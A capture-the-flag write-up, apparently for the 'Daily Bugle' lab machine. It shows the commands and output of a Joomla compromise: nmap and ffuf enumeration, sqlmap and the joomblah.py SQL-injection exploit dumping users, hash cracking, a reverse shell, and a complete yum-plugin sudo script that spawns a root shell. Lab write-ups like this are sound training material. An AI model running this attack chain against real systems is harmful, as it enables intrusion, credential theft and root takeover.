 # Daily Bugle

The first thing that we are going to do is a nmap scan:

```bash
sudo nmap -A 10.10.62.253                     

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-30 10:48 EST
Nmap scan report for 10.10.62.253
Host is up (0.063s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

This is our output, we see that there are 3 ports open, 

- ssh(useless for now)
- http
- 3306, which is used by MariaDB

The first thing that I am going to do is exploring the web page

![Untitled](Daily%20Bugle%20f7664d233b7c4054a261e00462332c48/Untitled.png)

After trying some thing, I cam accross the robots.txt directory:

```bash
# If the Joomla site is installed within a folder 
# eg www.example.com/joomla/ then the robots.txt file 
# MUST be moved to the site root 
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths. 
# eg the Disallow rule for the /administrator/ folder MUST 
# be changed to read 
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/orig.html
#
# For syntax checking, see:
# http://tool.motoricerca.info/robots-checker.phtml

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

This is the output.

For now I am going to ignore it.

Now I just started sqlmap with the request that I captured from the login form:

```bash
└─$ sqlmap -r Desktop/response.txt --dbms=mariadb --dump --threads=5
```

And then I ran ffuf for directory enumeration:

```bash
ffuf -u http://10.10.62.253/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.62.253/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 211, Words: 15, Lines: 9, Duration: 5237ms]
.htaccess               [Status: 403, Size: 211, Words: 15, Lines: 9, Duration: 5361ms]
administrator           [Status: 301, Size: 242, Words: 14, Lines: 8, Duration: 80ms]
bin                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 79ms]
cache                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 80ms]
cgi-bin/                [Status: 403, Size: 210, Words: 15, Lines: 9, Duration: 80ms]
cli                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 82ms]
components              [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 94ms]
images                  [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 76ms]
includes                [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 79ms]
language                [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 80ms]
layouts                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 80ms]
libraries               [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 77ms]
media                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 79ms]
modules                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 80ms]
plugins                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 79ms]
robots.txt              [Status: 200, Size: 836, Words: 88, Lines: 33, Duration: 80ms]
templates               [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 71ms]
tmp                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 80ms]
:: Progress: [20469/20469] :: Job [1/1] :: 265 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
```

Ok, now that I have more informations, I can visit the administrator page:

![Untitled](Daily%20Bugle%20f7664d233b7c4054a261e00462332c48/Untitled%201.png)

Nice, we have the jomla login panel.

Now we can run OWASP joomscan, and find the version.

After that I searched for an exploit, and found this python script:

```bash
python3 joomblah.py http://10.10.62.253

                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: <redacted>
  -  Extracting users from <redacted>
 [$] Found user ['<redacted>']
  -  Extracting sessions from <redacted>
```

After finding the hash of Jonah, I just went to hashidentifier and cracked it.

Now for creating a reverse shell I found this Article online: [https://www.hackingarticles.in/joomla-reverse-shell/](https://www.hackingarticles.in/joomla-reverse-shell/)

I followed and I got a rev shell.

I upgraded the shell using:

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

And found the jjameson’s password inside linpeas.

Now we need to become root.

I used sudo -l  to list all the privileges:

```bash
sudo -l

Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

And then went to gtfobins and used this for a root shell:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```